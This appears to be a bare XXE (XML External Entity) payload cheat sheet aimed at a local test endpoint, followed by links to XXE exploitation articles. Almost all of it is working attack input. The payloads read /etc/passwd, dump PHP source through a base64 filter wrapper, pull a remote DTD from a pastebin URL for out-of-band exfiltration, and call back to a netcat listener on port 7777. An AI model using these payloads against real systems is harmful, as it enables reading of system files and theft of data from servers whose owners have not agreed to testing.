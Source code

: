 
POST -> http://127.0.0.1:8802/xxe.php

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
 <userInfo>
  <user>&xxe;</user>
 </userInfo>


<?xml version="1.0" ?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
 <userInfo>
  <user>&xxe;</user>
 </userInfo>


<?xml version="1.0" ?>
<!DOCTYPE user [
<!ELEMENT user ANY >
<!ENTITY % sp SYSTEM "https://pastebin.com/raw/cNMvFSG8">
%sp;
%param1;
]>
<user>&exfil;</user>
// - check docker-compose logs


//change 127.0.0.1 - to local ip (not 127.0.0.1)
nc -l -p 7777
<?xml version="1.0"?>
<!DOCTYPE name [<!ENTITY xxe SYSTEM "http://192.168.96.1:7777" >]>
<name>&xxe;</name>




https://www.slideshare.net/ssuserf09cba/xxe-how-to-become-a-jedi
https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0
https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/
